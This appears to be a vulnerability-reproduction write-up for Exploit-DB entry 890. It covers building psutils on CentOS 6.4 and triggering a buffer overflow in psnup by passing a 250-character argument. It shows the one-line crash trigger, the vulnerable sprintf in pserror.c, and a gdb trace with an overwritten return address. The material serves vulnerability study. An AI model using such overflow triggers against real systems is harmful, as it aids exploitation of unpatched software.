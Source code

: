 # EDB-890

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-890/psutils-p17.tar.gz

tar -xvf psutils-p17.tar.gz
cd psutils

./configure
make
```

## Problems in Installation & Configuration

Change

```
PERL = /usr/local/bin/perl
```

to

```
PERL = /usr/bin/perl

```

## How to trigger vulnerability

```
./psutils/psnup -8 `perl -e 'print "A"x250'`
```

## PoCs

[PostScript Utilities - psnup Argument Buffer Overflow](https://www.exploit-db.com/exploits/890/)

## Vulnerability Details & Patch

### Root Cause

```
pserror.c:82

              sprintf(bufptr, fmtbuf, s) ;
```

### Stack Trace

```
(gdb) info stack
#0  0x41414141 in ?? ()
#1  0x41414141 in ?? ()
#2  0x41414141 in ?? ()
#3  0x41414141 in ?? ()
```

## References
